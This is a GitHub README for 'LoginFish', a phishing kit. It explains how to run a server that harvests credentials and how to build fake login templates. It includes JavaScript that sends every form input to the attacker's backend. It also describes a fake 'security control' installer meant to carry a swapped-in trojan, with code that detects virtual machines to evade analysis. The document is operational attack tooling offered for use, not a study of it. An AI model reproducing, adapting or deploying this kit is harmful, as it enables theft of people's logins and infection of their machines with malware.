

# LoginFish 通用钓鱼工具
[视频介绍](https://www.bilibili.com/video/BV1Tv4y1u7Ze)


## 使用方法


```
# 后台登录密码,请修改 password.txt 
# 第一次运行会自动生成密码 写到 password.txt
# 后台地址 http://host:5522/admin/login
# 默认端口5522 

./LoginFish port
./LoginFish 80

```


## 密码记录



可以参考`/static/template/front_login_keylogger.html`文件

所有`input`标签的内容都会被提交到后端,引用`<script src="/static/dist/login.js"></script>`并把登录按钮绑定到`login_submit()`函数即可

你也可以自定义`login.js`,并控制登录之后的返回信息

比如说点击登录之后执行`alert('帐号/密码校验不通过')`

```js
function login_submit() {
    var input = document.getElementsByTagName('input')
    var data = ''
    for (var i = 0; i < input.length; i++) {
        const put = input[i]
        var name = ''
        if (put.className) name = '_' + put.className
        if (put.name) name = '_' + put.name
        var key = `input[${i}${name}]=${put.value}`;
        data = data + key + '&'
    }
    if (data != '') post(data)
    console.log(data)
}
```


## 模板修改

打开`static/template/`目录,默认有俩个模板,分别是`front_login_1.html`和`front_login.html`

如果需要`css`和`js`文件则把其放在`static/dist`中

模板中使用`<script src="/static/dist/login.js"></script>` 这样的路径进行引用

如果需要自定义模板,则在`static/template/`中创建以`front_`开头的html文件即可.

然后需要引用`<script src="/static/dist/login.js"></script>` 文件,再把某个下载按钮绑定到`onclick_input`事件即可

```js
 <div onclick="onclick_input()">
        <label for="password">密码</label>
        <input name="password" class="password" type="password" disabled placeholder="下载安全控件" id="password">
 </div>
```

或者你也可以直接使用`<a href='/down'>下载</a>` 这样的方式去绑定下载地址.

## SafeInstall 模拟安全控件

使用`Visual Studio 2015`与`.NET 4.0`开发,替换木马需要修改资源文件中的`load`

如果需要关闭屏蔽虚拟机,则编辑`SafeInstall/SafeInstall/Form1.cs`文件

```c#
public Form1()
{
    checkVM(); //注释该行即可
    writeFile();
    InitializeComponent();
    progressBar1.Value = 0;
    timer1.Interval = 50;
    timer1.Start();
}
```
